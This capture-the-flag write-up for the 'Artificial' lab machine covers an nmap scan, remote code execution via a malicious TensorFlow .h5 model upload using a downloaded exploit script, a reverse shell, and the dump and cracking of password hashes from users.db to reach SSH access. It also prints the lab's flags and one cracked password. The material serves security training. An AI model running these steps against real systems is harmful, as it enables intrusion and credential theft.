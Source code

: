 ```yaml
---
layout: default
title: Artificial
---
```


### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sCV --min-rate=10000 $target
```

![nmap results](image.png)

As we can see, there is port `22` for ssh and port `80` for the webserver, which is based on *ngnix*.

```bash
PORT      STATE    SERVICE        VERSION
22/tcp   open   ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp   open   http           nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://artificial.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)4181/tcp  filtered macbak
```

Let's add `artificial.htb` to our `/etc/hosts`, this line:
```
10.10.11.74     artificial.htb
``` 

### Get shell

As we can see, we can upload models and then execute them on our dashboard.
I googled for this, and found this https://github.com/Splinter0/tensorflow-rce, we can achieve `RCE` using creation of malicious `.h5` model files.

So, first let's download `DockerFile` and `requirements.txt` from the webserver.

We build the Docker Image, `-t` is to supply the image name, and the `.` is where the `DockerFile` is located:
```bash
docker build -t artificial-docker .
```

And then spawn a shell inside container, `--rm` is to remove all the staff after the container dies, `--it` to spawn shell, `-v` is to specify mount, our `$PWD` to `/app`, `-w` is to specify working directory on the shell:
```bash
docker run --rm -it -v "$PWD":/app -w /app artificial-docker
```

Next, we want to install packages:
```bash
pip install -r requirements.txt
```

And now we can `curl` the `exploit.py`, and make our model after changing it to point to our listen port, and ip.
```bash
curl https://raw.githubusercontent.com/Splinter0/tensorflow-rce/refs/heads/main/exploit.py -o exploit.py
```

![edit exploit.py](image-1.png)

and execute:
```bash
python3 exploit.py
```

![execute exploit.py](image-2.png)

Now, we just need to upload `exploit.h5` and click the *View Predictions*.

![get reverse shell](image-3.png)

Of course we paste the regular commands:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

### Move vertically 

We can see there is another user which is called `gael`, however we don't have permission to read its files.

inside the folder `/app/instance`, we can see there is `users.db` file, let's try to analyze this file in our local machine.
So, in the remote we'll execute:
```bash
python3 -m http.server 8081
```
and in the local:
```bash
curl http://$target:8081/users.db -o users.db
```

Using the `file` command we can see we have sqlite3 filetype.

![get users.db](image-4.png)

next, we'll execute `sqlite3 users.db`, and then inside the db:
```sql
sqlite> .tables
model  user 
sqlite> select * from user;
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|fakename|fake@email.com|aea97f1a1bb96221efec9e71d76766ab
7|fakenmae|r32r@email.com|bfde39ad9014a45608030ff7081f94cb
8|admin|admin@test.htb|cc03e747a6afbbcbf8be7668acfebee5
9|dsg|dsg@local.net|2c103f2c4ed1e59c0b4e2e01821770fa
10|test|test@test.com|5a105e8b9d40e1329780d62ea2265d8a
11|dev|dev@gmail.com|227edf7c86c02a44d17eec9aa5b30cd1
12|tets|test@gmail.com|81dc9bdb52d04dc20036dbd8313ed055
13|' UNION SELECT username FROM users--|hola@gmail.com|2347b7a569cdefeab6d4cade96cbf38e
14|1|1@1|c4ca4238a0b923820dcc509a6f75849b
15|user|user@gmail.com|ee11cbb19052e40b07aac0ca060c23ee
```

Using `pragma table_info("table_name")` we can get the column names:
```sql
sqlite> pragma table_info("user");
0|id|INTEGER|1||1
1|username|VARCHAR(100)|1||0
2|email|VARCHAR(120)|1||0
3|password|VARCHAR(200)|1||0
``` 

We want to output all into `users.txt`, so we'll execute:
```sql
sqlite> .output users.txt
sqlite> select * from user;
sqlite> .output stdout
```

We can check if it really worked, using this:
```sql
sqlite> .shell cat users.txt
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|fakename|fake@email.com|aea97f1a1bb96221efec9e71d76766ab
7|fakenmae|r32r@email.com|bfde39ad9014a45608030ff7081f94cb
8|admin|admin@test.htb|cc03e747a6afbbcbf8be7668acfebee5
9|dsg|dsg@local.net|2c103f2c4ed1e59c0b4e2e01821770fa
10|test|test@test.com|5a105e8b9d40e1329780d62ea2265d8a
11|dev|dev@gmail.com|227edf7c86c02a44d17eec9aa5b30cd1
12|tets|test@gmail.com|81dc9bdb52d04dc20036dbd8313ed055
13|' UNION SELECT username FROM users--|hola@gmail.com|2347b7a569cdefeab6d4cade96cbf38e
14|1|1@1|c4ca4238a0b923820dcc509a6f75849b
15|user|user@gmail.com|ee11cbb19052e40b07aac0ca060c23ee
```

To quit we just type `.quit`.

Now, we use `cut` to get only hashes:
```bash
cut -d '|' -f4 users.txt > hashes.txt
```
Let's crack the passwords using https://crackstation.net/

![crack the passwords](image-5.png)

We got the password of `gael`, which is `mattp005numbertwo`.

Let's connect using `ssh gael@$target` and get the user flag:
```bash
gael@artificial:~$ cat user.txt 
5c77a6560779530ac10be603b87fa276
```

### Privilege Escalation


**User Flag:*****`5c77a6560779530ac10be603b87fa276`***

**Root Flag:*****`b40abdfe23665f766f9c61ecba8a4c19`***
